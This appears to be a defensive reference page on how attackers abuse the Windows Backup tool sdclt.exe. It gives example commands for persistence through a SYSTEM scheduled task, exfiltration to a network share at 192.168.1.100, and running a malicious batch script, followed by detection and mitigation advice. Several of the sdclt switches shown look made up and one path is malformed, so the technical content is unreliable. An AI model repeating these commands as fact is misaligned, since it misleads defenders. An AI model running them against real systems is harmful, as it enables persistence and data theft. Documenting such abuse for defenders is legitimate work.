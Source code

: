 # sdclt.exe
## What is it?
*```sdclt.exe``` (Windows Backup) is a **built-in Windows utility** that provides a graphical interface for managing backup and restore operations. It is used to schedule backups of user data and system files, creating restore points for system recovery.*

*While typically used for legitimate backup purposes, its trusted nature and access to system resources can be exploited by attackers to maintain persistence or execute malicious actions.*

## Legitimate Usage
- **Backup Creation** → Allows users to create regular backups of their system and data.
- **System Recovery** → Restores data or system settings from previously created backups or restore points.
- **Automated Backups** → Schedules automatic backups to ensure data protection against system failure.
- **Restore Points** → Creates restore points to roll back to a previous system state in case of issues.

## How to abuse it
- **Persistence via Scheduled Tasks** → Attackers can schedule ```sdclt.exe``` to run at specific intervals, ensuring the execution of malicious payloads or scripts at system startup or at predefined times.
- **Bypassing Security Controls** → Attackers can use ```sdclt.exe``` to bypass security monitoring, since it is a legitimate system tool often overlooked by security software.
- **Exfiltration & Data Manipulation** → Attackers can manipulate the backup process to exfiltrate or modify data during the backup operation.
- **Privilege Escalation** → Attackers may abuse the backup process to execute commands with elevated privileges, as backup operations often run with administrator rights.

## Example attacks
### 1. Persistence via Scheduled Backup
*Attackers can schedule ```sdclt.exe``` to create backups of malicious files at regular intervals, ensuring persistence on the system.*

**Schedule Malicious Backup Task**

```
schtasks /create /tn "BackupJob" /tr "sdclt.exe /configure /backup" /sc daily /ru SYSTEM
```

**Effect:**
- **Backup job** is created to run daily with **SYSTEM privileges**, ensuring persistence for the attacker.

### 2. Data Exfiltration via Backup Files
*Attackers can use the backup process to exfiltrate sensitive files during the backup, hiding the data theft within legitimate activity.*

**Create Backup to External Location**

```
sdclt.exe /configure /backup /target:\192.168.1.100\share
```

**Effect:**
- **Sensitive data** is backed up to an attacker-controlled network share, exfiltrating it unnoticed.

### 3. Abuse of Restore Points for Malicious Payloads
*Attackers can place malicious payloads into system restore points, using ```sdclt.exe``` to restore them at a later time.*

**Restore Malicious Files via Restore Point**

```
sdclt.exe /restore /restorepoint:5
```

**Effect:**
- **Malicious files** are restored, allowing the attacker to execute payloads after a system recovery.

### 4. Elevation of Privileges via Backup Operations
*Backup operations are often run with elevated privileges, allowing attackers to execute malicious code or scripts with administrator rights.*

**Run Malicious Script via Backup Configuration**

```
sdclt.exe /configure /backup /script:C:\path\to\malicious_script.bat
```

**Effect:**
- **Malicious script** runs with elevated privileges during the backup process, potentially escalating privileges.

### 5. Hiding Malicious Activities within Backup Processes
*Attackers can hide their activities within legitimate backup operations, evading detection from security monitoring tools.*

**Create Hidden Backup to Evade Detection**

```
sdclt.exe /configure /backup /target:C:\Windows\Temp
```

**Effect:**
- **Malicious files** are hidden within backup files in **C:\Windows\Temp**, bypassing security detection.

# Detection & Mitigation
## Detection Methods
**Monitor Scheduled Tasks**
- **Event ID 4698 (Scheduled Task Created)** → Detect creation of new scheduled tasks related to ```sdclt.exe```.
- **Look for Unusual Backup Locations** → Monitor for backups targeting network shares or unusual paths (e.g., external drives, remote systems).

**Monitor Process Execution**
- **Event ID 4688 (Process Creation)** → Detect execution of ```sdclt.exe``` with unusual parameters or in unexpected contexts (e.g., running with SYSTEM privileges).
- **Look for Backup Operations with Scripts** → Track the use of scripts or additional payloads in backup configurations.

**File Integrity Monitoring**
- **Monitor Changes to Backup Files** → Set up alerts for unexpected modifications to backup files, particularly in sensitive directories.

## Mitigation Strategies
- **Restrict Scheduled Task Creation** → Use Group Policy to restrict the creation of new scheduled tasks for untrusted users or applications.
- **Use Application Whitelisting** → Prevent the execution of unauthorized instances of ```sdclt.exe``` using tools like AppLocker or WDAC.
- **Monitor Backup Activity** → Set up alerts for backup operations, especially those that involve external locations or script execution.
- **Limit User Privileges** → Ensure that only trusted administrators have access to backup and restore functionality.
